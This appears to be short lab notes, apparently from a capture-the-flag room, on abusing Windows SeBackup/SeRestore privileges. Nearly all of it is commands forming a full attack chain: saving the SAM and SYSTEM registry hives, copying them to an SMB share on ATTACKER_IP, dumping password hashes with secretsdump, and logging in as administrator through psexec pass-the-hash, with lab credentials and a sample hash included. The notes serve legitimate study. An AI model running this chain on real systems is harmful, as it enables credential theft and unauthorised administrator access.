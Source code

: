 # Abusing dangerous privileges 

similar to sudo of linux.

- list pri
    ```cmd
    whoami /priv
    ```

## SeBackup / SeRestore

- backup SAM, SYSTEM hash
    ```cmd
    # reg save hklm\system [system_hash_out_file]
    reg save hklm\system C:\Users\THMBackup\system.hive

    # reg save hklm\sam [sam_hash_out_file]
    reg save hklm\sam C:\Users\THMBackup\sam.hive
    ```

- share file from windows to attacker's box
    - start smb server
        ```bash
        mkdir share
        python3 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
        ```
    - copy file to attacker's box
        ```cmd
            copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
            copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
        ```

- get users's password hash
    ```bash
    python3 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
    ```

- gain access by user's hash
    ```bash
    # python3.9 /opt/impacket/examples/psexec.py -hashes [hash_value] [user]@[ip]
    python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.233.86
    ```


